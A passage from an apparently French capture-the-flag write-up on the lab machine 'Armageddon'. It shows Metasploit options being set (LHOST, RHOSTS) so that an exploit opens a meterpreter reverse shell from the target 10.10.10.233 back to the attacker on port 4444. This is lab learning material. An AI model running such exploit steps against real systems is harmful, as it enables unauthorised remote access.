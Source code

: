 ![Screenshot_20210405_194902](Armageddon.assets/Screenshot_20210405_194902.png)

Ils nous demandent de mettre une ip qui est dans le même réseau que la cible, ainsi que le port que nous allons ouvrir pour recevoir la connexion.



Dans mon cas, je dois modifier l'ip, car elle n'est pas dans le même réseau que la cible.

> set LHOST 10.10.14.16

Nous devons aussi renseigner l'ip de la cible.

> set RHOSTS 10.10.10.233

![Screenshot_20210405_195147](Armageddon.assets/Screenshot_20210405_195147.png)Donc nous allons lancer l'exploit sur la cible `10.10.10.233` et il ouvrir un meterpreter sur notre hôte en `10.10.14.16` sur le port `4444`.
